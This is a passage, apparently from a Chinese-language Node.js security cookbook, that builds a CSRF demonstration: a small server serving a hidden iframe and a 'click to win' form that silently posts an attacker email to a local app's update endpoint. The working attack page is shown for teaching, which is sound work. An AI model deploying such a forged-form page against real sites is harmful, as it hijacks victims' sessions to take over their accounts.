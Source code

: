 图 9.10 – 社交媒体账户 – 设置

1.  现在，我们将创建我们的恶意网页。创建一个名为 **csrf-server.js** 的文件。这是我们构建恶意网页的地方：

    ```js
    $ touch csrf-server.js
    ```

1.  添加以下代码以创建恶意网页：

    ```js
    const http = require('node:http');
    const attackerEmail = 'attacker@example.com';
    const server = http.createServer((req, res) => {
      res.writeHead(200, { 'Content-Type': 'text/html' });
      res.end(`
    <iframe name=hide style="position:absolute;left:-
      1000px"></iframe>
    <form method="post"
      action="http://localhost:3000/update" target=hide>
    <input type=hidden name=email
      value="${attackerEmail}">
    <input type=submit value="Click this to win!">
    </form>`);
    });
    server.listen(3001, () => {
      console.log('Server listening on port 3001');
    });
    ```

1.  在第二个终端窗口中，启动 **csrf-server.js** 服务器：

    ```js
    $ node csrf-server.js
    Server listening on port 3001
    ```

重要提示

在真实的 CSRF 攻击中，我们预计攻击会来自与易受攻击的服务器不同的域。然而，由于网络浏览器安全性的进步，许多 CSRF 攻击被浏览器阻止。对于这个配方，我们将演示在同一域上的攻击。请注意，CSRF 攻击至今仍然可能发生，尤其是许多用户可能在使用没有最新安全特性来保护 CSRF 攻击的旧版浏览器。

1.  在你的浏览器中导航到 **http://localhost:3001**。预期会看到以下输出显示一个单按钮：

![图 9.11 – 显示可疑“点击这个来赢！”按钮的恶意 CSRF 网页](img/B19212_09_11.jpg)

图 9.11 – 显示可疑“点击这个来赢！”按钮的恶意 CSRF 网页

1.  点击**点击这个来赢！**按钮。通过点击按钮，发送了一个包含**attacker@example.com**电子邮件的 HTTP **POST**请求到**http://localhost:3000/update**。通过点击这个按钮，HTTP **POST**请求已经发送到真实网站的服务器，利用浏览器中存储的 cookie。
